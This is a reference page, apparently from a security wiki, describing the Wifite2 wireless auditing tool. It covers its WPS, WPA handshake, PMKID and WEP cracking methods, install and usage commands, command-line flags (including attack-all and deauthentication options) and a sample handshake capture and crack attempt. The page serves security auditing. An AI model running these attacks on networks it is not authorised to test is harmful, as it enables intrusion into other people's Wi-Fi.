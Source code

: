 ```yaml
---
title : "Wifite2"
# pre : ' '
description : "Rewrite of the popular wireless network auditor, 'wifite' - automated wireless auditor."
date : 2022-02-21T12:10:24+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Framework', 'Wi-Fi']
---
```


## Wifite2

This repo is a complete re-write of [wifite](https://github.com/derv82/wifite), a Python script for auditing wireless networks.

Wifite runs existing wireless-auditing tools for you. Stop memorizing command arguments & switches!

Wifite is designed to use all known methods for retrieving the password of a wireless access point (router). These methods include:

1. WPS: The [Offline Pixie-Dust attack](https://en.wikipedia.org/wiki/Wi-Fi_Protected_Setup#Offline_brute-force_attack)
2. WPS: The [Online Brute-Force PIN attack](https://en.wikipedia.org/wiki/Wi-Fi_Protected_Setup#Online_brute-force_attack)
3. WPA: The [WPA Handshake Capture](https://hashcat.net/forum/thread-7717.html) + offline crack.
4. WPA: The [PMKID Hash Capture](https://hashcat.net/forum/thread-7717.html) + offline crack.
5. WEP: Various known attacks against WEP, including *fragmentation*, *chop-chop*, *aireplay*, etc.

Run wifite, select your targets, and Wifite will automatically start trying to capture or crack the password.

## Installation

```plain
git clone https://github.com/derv82/wifite2.git
```

#### Requirements

```plain
sudo apt install aircrack-ng reaver bully tshark hcxtools
```

## Usage

```plain
sudo ./Wifite.py
```

#### Reset after use

```plain
sudo airmon-ng stop <device>mon
```

## Flags

```plain
   .               .    
 .´  ·  .     .  ·  `.  wifite 2.2.5
 :  :  :  (¯)  :  :  :  automated wireless auditor
 `.  ·  ` /¯\ ´  ·  .´  https://github.com/derv82/wifite2
   `     /¯¯¯\     ´    

optional arguments:
  -h, --help             show this help message and exit

SETTINGS:
  -v, --verbose          Shows more options (-h -v). Prints commands and outputs. (default: quiet)
  -i [interface]         Wireless interface to use, e.g. wlan0mon (default: ask)
  -c [channel]           Wireless channel to scan (default: all 2Ghz channels)
  -mac, --random-mac     Randomize wireless card MAC address (default: off)
  -p [scan_time]         Pillage: Attack all targets after scan_time (seconds)
  --kill                 Kill processes that conflict with Airmon/Airodump (default: off)
  --clients-only         Only show targets that have associated clients (default: off)
  --nodeauths            Passive mode: Never deauthenticates clients (default: deauth targets)

WEP:
  --wep                  Show only WEP-encrypted networks
  --require-fakeauth     Fails attacks if fake-auth fails (default: off)
  --keep-ivs             Retain .IVS files and reuse when cracking (default: off)

WPA:
  --wpa                  Show only WPA-encrypted networks (includes WPS)
  --new-hs               Captures new handshakes, ignores existing handshakes in hs (default: off)
  --dict [file]          File containing passwords for cracking (default: ./wordlist-top4800-probable.txt)

WPS:
  --wps                  Show only WPS-enabled networks
  --wps-only             Only use WPS PIN & Pixie-Dust attacks (default: off)
  --bully                Use bully program for WPS PIN & Pixie-Dust attacks (default: reaver)
  --ignore-locks         Do not stop WPS PIN attack if AP becomes locked (default: stop)

PMKID:
  --pmkid                Only use PMKID capture, avoids other WPS & WPA attacks (default: off)
  --pmkid-timeout [sec]  Time to wait for PMKID capture (default: 30 seconds)

COMMANDS:
  --cracked              Print previously-cracked access points
  --check [file]         Check a .cap file (or all hs/*.cap files) for WPA handshakes
  --crack                Show commands to crack a captured handshake
```

## Examples

```plain
$ sudo ./Wifite.py             
   .               .    
 .´  ·  .     .  ·  `.  wifite 2.2.5
 :  :  :  (¯)  :  :  :  automated wireless auditor
 `.  ·  ` /¯\ ´  ·  .´  https://github.com/derv82/wifite2
   `     /¯¯¯\     ´    

 [!] Warning: Recommended app pyrit was not found. install @ https://github.com/JPaulMora/Pyrit/wiki
 [!] Conflicting processes: avahi-daemon (PID 1816), NetworkManager (PID 1824), wpa_supplicant (PID 1868), avahi-daemon (PID 1889)
 [!] If you have problems: kill -9 PID or re-run wifite with --kill)

    Interface   PHY   Driver              Chipset                                                                                                                                                                                                                                                                         
-----------------------------------------------------------------------
 1. wlp4s0      phy0  iwlwifi             Intel Corporation Wireless 8265 / 8275 (rev 78)

 [+] enabling monitor mode on wlp4s0... enabled wlp4s0mon

   NUM                      ESSID   CH  ENCR  POWER  WPS?  CLIENT
   ---  -------------------------  ---  ----  -----  ----  ------
     1                     OFFSEC    11   WPA   42db    no    1
     2               OFFSEC-GUEST    11   WPA   42db    no    3

 [+] select target(s) (1-28) separated by commas, dashes or all: 2                              
 [+] (1/1) Starting attacks against C8:12:34:56:78:E1 (OFFSEC-GUEST)
 [+] OFFSEC-GUEST (42db) PMKID CAPTURE: Failed to capture PMKID 
 [+] OFFSEC-GUEST (43db) WPA Handshake capture: Discovered new client: 70:12:34:56:78:EC                                
 [+] OFFSEC-GUEST (43db) WPA Handshake capture: Captured handshake                                              
 [+] saving copy of handshake to hs/handshake_OFFSECGUEST_C8:12:34:56:78:E1_2022-02-21T12-22-55.cap saved
 [+] analysis of captured handshake file:
 [+]   tshark: .cap file contains a valid handshake for C8:12:34:56:78:E1
 [!] aircrack: .cap file does not contain a valid handshake

 [+] Cracking WPA Handshake: Running aircrack-ng with wordlist-top4800-probable.txt wordlist

 [!] Failed to crack handshake: wordlist-top4800-probable.txt did not contain password
 [+] Finished attacking 1 target(s), exiting
 [!] Note: Leaving interface in Monitor Mode!
 [!] To disable Monitor Mode when finished: airmon-ng stop wlp4s0mon
```

## URL List

* [Github.com - Wifite2](https://github.com/derv82/wifite2)
